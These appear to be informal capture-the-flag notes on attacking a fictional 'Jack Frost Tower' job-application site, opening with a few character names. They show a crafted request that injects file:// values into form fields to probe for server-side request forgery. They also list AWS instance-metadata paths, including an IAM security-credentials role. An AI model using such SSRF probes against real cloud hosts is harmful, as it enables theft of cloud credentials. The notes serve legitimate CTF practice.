 Ikky - Family in room

Flud - very cranky lady 2nd 1024

Muffy+VonDuchess+Sebastian 

Flud Hagg Yaqh

# applying for jack frost tower IMDS exploitation

Not able to run the same commands, dir buster?

SSRF in file upload lets try and input something out of theworld in file input

https://apply.jackfrosttower.com/?inputName=s&inputEmail=s@s.c&inputPhone=s&inputField=Crayon%20on%20walls&resumeFile=%22file://images/4.jpg%22&inputWorkSample=file://images/4.jpg&additionalInformation=werwerwer&submit=file://images/4.jpg


cheat from https://cobalt.io/blog/a-pentesters-guide-to-server-side-request-forgery-ssrf#:~:text=etc/passwd%22%3E%5C%3C/iframe%3E%5C%0A%0A%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D%2D-,__AWS%3A__,-http%3A//instance%2Ddata

got an invalid name input


ami-id
ami-launch-index
ami-manifest-path
block-device-mapping/ami
block-device-mapping/ebs0
block-device-mapping/ephemeral0
block-device-mapping/root
block-device-mapping/swap
elastic-inference/associations
elastic-inference/associations/eia-bfa21c7904f64a82a21b9f4540169ce1
events/maintenance/scheduled
events/recommendations/rebalance
hostname
iam/info
iam/security-credentials
iam/security-credentials/jf-deploy-role
instance-action
instance-id
instance-life-cycle
instance-type
latest
latest/api/token
local-hostname
local-ipv4
mac
network/interfaces/macs/0e:49:61:0f:c3:11/device-number
network/interfaces/macs/0e:49:61:0f:c3:11/interface-id
network/interfaces/macs/0e:49:61:0f:c3:11/ipv4-associations/192.0.2.54
network/interfaces/macs/0e:49:61:0f:c3:11/ipv6s
network/interfaces/macs/0e:49:61:0f:c3:11/local-hostname
network/interfaces/macs/0e:49:61:0f:c3:11/local-ipv4s
network/interfaces/macs/0e:49:61:0f:c3:11/mac
network/interfaces/macs/0e:49:61:0f:c3:11/owner-id
network/interfaces/macs/0e:49:61:0f:c3:11/public-hostname
network/interfaces/macs/0e:49:61:0f:c3:11/public-ipv4s
network/interfaces/macs/0e:49:61:0f:c3:11/security-group-ids
network/interfaces/macs/0e:49:61:0f:c3:11/security-groups
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-id
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-ipv4-cidr-block
network/interfaces/macs/0e:49:61:0f:c3:11/subnet-ipv6-cidr-blocks